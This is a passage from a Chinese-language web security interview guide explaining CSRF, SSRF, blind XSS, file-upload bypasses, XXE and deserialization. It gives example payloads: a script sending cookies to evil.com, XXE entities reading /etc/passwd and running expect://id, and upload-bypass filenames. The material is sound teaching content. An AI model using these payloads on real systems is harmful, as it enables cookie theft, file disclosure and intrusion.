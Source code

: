
## 5、说一下，CSRF 和 SSRF 的区别。
- CSRF：跨站请求伪造，诱导用户在已登录状态下向目标站点发起操作（如转账）。
- SSRF：服务端请求伪造，攻击者诱导服务器去请求攻击者指定的链接，可用于内网探测、读取敏感信息。
- 对比：CSRF利用用户身份，SSRF利用服务器网络权限。

---

## 6、什么是 XSS 盲打
- 盲XSS：注入点不可直接反射执行，只有后台（如管理员）查看日志/反馈时才触发XSS。
- 典型场景：留言板、日志、订单详情等，攻击者需等待后台人员访问页面后收到回连。

---

## 7、利用 XSS 漏洞如何获取数据？
- 目标：Cookie（非HttpOnly）、localStorage/sessionStorage、页面DOM、用户输入、API数据。
- 手法：
  - `<script>new Image().src='http://evil.com/?c='+document.cookie</script>`
  - 监听键盘输入，伪造钓鱼表单，重定向跳转，利用Ajax获取并外带数据。
  - DNS请求外带（如将敏感信息拼为子域名）。
- 防御：输出编码、CSP、安全Cookie、敏感数据最小化前端暴露。

---

## 8、文件上传漏洞的绕过方式有哪些？
- 前端校验绕过：抓包改后缀或Content-Type
- 黑名单绕过：特殊后缀（.php5/.phtml）、大小写（.PhP）、末尾加点（shell.php.）、双写（shell.pphphp）、上传.htaccess
- 白名单绕过：IIS/nginx解析漏洞、00截断（shell.jpg%00.php）
- 内容校验绕过：在文件头插入图片魔数字节（如GIF89a），图片马
- 竞争条件：上传后瞬间访问，利用删除延迟

---

## 9、什么是 XXE 漏洞，有哪些利用方法？
- XXE：XML外部实体注入，利用应用解析XML时未禁用外部实体，加载攻击者构造的实体。
- 利用：
  - 读取本地文件：`<!ENTITY xxe SYSTEM "file:///etc/passwd">`
  - SSRF：`<!ENTITY xxe SYSTEM "http://127.0.0.1:8080/">`
  - 命令执行：如`expect://id`
  - DoS：递归实体消耗资源
  - 盲XXE：外部DTD带数据回连

---

## 10、反序列化漏洞的基本原理。
- 原理：应用反序列化用户可控数据，未做安全校验，攻击者利用“魔法方法”（如`__wakeup()`, `__destruct()`，Java的`readObject()`），实现代码执行或敏感操作。
- 常见：PHP、Java、Python等语言对象反序列化，框架/组件易中招。

---
